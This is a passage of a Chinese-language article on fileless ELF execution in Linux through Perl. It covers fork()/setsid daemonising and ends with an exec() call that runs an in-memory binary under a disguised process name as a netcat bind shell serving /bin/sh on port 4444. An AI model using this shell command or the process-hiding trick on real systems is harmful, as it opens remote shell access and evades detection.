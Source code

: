 执行这些语句就可以将我们的可执行文件载入内存中，等待执行。

### <a class="reference-link" name="fork()"></a>fork()

我们还可以使用[fork()](https://linux.die.net/man/2/fork)，虽然这不是必选项，但如果我们不想在运行ELF文件后退出，`fork()`就可以派上用场。通常情况下，在perl中生成子进程的方式如下所示：

```
while ($keep_going) `{`
        my $pid = fork();
        if (-1 == $pid) `{` # Error
                die "fork: $!";
        `}`
        if (0 == $pid) `{`
                exit 0;
        `}`
`}`
```

我们还可以调用`fork()`两次，再配合上[setsid(2)](http://man7.org/linux/man-pages/man2/setsid.2.html)，这样就能生成独立的子进程，结束父进程运行：

```
# Start a child process
my $pid = fork();
if (-1 == $pid) `{` # Error
        die "fork1: $!";
`}`
if (0 != $pid) `{` # the parent process terminates
        exit 0;
`}`
# the child process becomes the parent process
if (-1 == syscall(112)) `{`
        die "setsid: $!";
`}`
# a child process (grandchild) starts
$pid = fork();
if (-1 == $pid) `{` # Error
        die "fork2: $!";
`}`
if (0 != $pid) `{` # the child process terminates
        exit 0;
`}`
# “grandchild” code
```

现在我们就可以多次运行ELF进程。

### <a class="reference-link" name="Execve()"></a>Execve()

[Execve()](http://man7.org/linux/man-pages/man2/execve.2.html)这个系统调用可以用来执行程序。在perl中我们可以使用[Exec()](http://perldoc.perl.org/functions/exec.html)，这个函数效果类似，语法也更加简单。我们需要传递给`exec()`两个参数：待执行的文件（内存中的ELF文件）以及进程名。通常情况下，文件名和进程名相同，但由于我们可以在进程列表中看到`/proc/PID/fd/3`信息，因此我们需要重命名进程。调用`exec()`的语法如下：

```
exec `{`"/proc/$$/fd/$fd"`}` "nc", "-kvl", "4444", "-e", "/bin/sh" or die "exec: $!";
```
